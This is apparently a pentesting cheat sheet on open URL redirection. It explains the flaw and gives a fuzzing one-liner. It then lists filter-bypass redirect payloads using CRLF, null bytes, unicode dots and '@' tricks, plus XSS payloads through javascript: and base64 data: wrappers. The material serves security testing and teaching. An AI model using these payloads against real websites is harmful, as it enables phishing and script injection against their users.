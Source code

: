 # Open URL Redirection
Unvalidated redirects and forwards are possible when a web application accepts untrusted input that could cause the web application to redirect the request to a URL contained within untrusted input. By modifying untrusted URL input to a malicious site, an attacker may successfully launch a phishing scam and steal user credentials. Because the server name in the modified link is identical to the original site, phishing attempts may have a more trustworthy appearance. Unvalidated redirect and forward attacks can also be used to maliciously craft a URL that would pass the application’s access control check and then forward the attacker to privileged functions that they would normally not be able to access.

## Fuzzing
Replace www.whitelisteddomain.tld from *Open-Redirect-payloads.txt* with a specific white listed domain in your test case

To do this simply modify the WHITELISTEDDOMAIN with value www.test.com to your test case URL.
```
WHITELISTEDDOMAIN="www.test.com" && sed 's/www.whitelisteddomain.tld/'"$WHITELISTEDDOMAIN"'/' Open-Redirect-payloads.txt > Open-Redirect-payloads-burp-"$WHITELISTEDDOMAIN".txt && echo "$WHITELISTEDDOMAIN" | awk -F. '{print "https://"$0"."$NF}' >> Open-Redirect-payloads-burp-"$WHITELISTEDDOMAIN".txt
```

## Exploitation

Using CRLF to bypass "javascript" blacklisted keyword
```
java%0d%0ascript%0d%0a:alert(0)
```

Using "//" to bypass "http" blacklisted keyword
```
//google.com
```

Using "https:" to bypass "//" blacklisted keyword
```
https:google.com
```

Using "\/\/" to bypass "//" blacklisted keyword (Browsers see \/\/ as //)
```
\/\/google.com/
/\/google.com/
```


Using "%E3%80%82" to bypass "." blacklisted character
```
//google%E3%80%82com
```


Using null byte "%00" to bypass blacklist filter
```
//google%00.com
```

Using "@" character, browser will redirect to anything after the "@"
```
http://www.theirsite.com@yoursite.com/
```

Creating folder as their domain
```
http://www.yoursite.com/http://www.theirsite.com/
http://www.yoursite.com/folder/www.folder.com
```


XSS from Open URL - If it's in a JS variable
```
";alert(0);//
```

XSS from data:// wrapper
```
http://www.example.com/redirect.php?url=data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+Cg==
```

XSS from javascript:// wrapper
```
http://www.example.com/redirect.php?url=javascript:prompt(1)
```


## Thanks to
* filedescriptor
* https://www.owasp.org/index.php/Unvalidated_Redirects_and_Forwards_Cheat_Sheet
* [Cujanovic - Open-Redirect-Payloads](https://github.com/cujanovic/Open-Redirect-Payloads)
